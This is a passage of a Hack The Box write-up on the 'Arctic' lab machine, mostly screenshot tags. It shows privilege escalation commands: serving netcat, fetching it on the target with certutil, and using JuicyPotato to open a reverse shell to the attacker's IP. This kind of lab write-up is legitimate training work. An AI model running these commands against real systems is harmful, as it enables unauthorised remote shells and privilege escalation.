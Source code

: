 <br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I am looking for another way to escalate privileges, there are many, so I am going to download the **[netcat](https://eternallybored.org/misc/netcat/){:target="_blank"}** binary for **Windows** and transfer it to the **Arctic** machine. With `nc` I open a port on my attacker machine waiting for a remote connection and from the target machine I try again with `JuicyPotato.exe` to execute a command, but this time I send a **Reverse Shell** using `nc.exe` and now I succeed to **Escalate privileges** and then access the last flag to validate in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform the engagement of the lab.

> **Attacker Machine**:

```bash
unzip -d netcat netcat-win32-1.12.zip
mv ./netcat/nc64.exe ./nc.exe
python3 -m http.server 80
md5sum nc.exe
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.22/nc.exe
certutil.exe -hashfile .\nc.exe MD5
# :)
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.22 443"
whoami
# :)
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
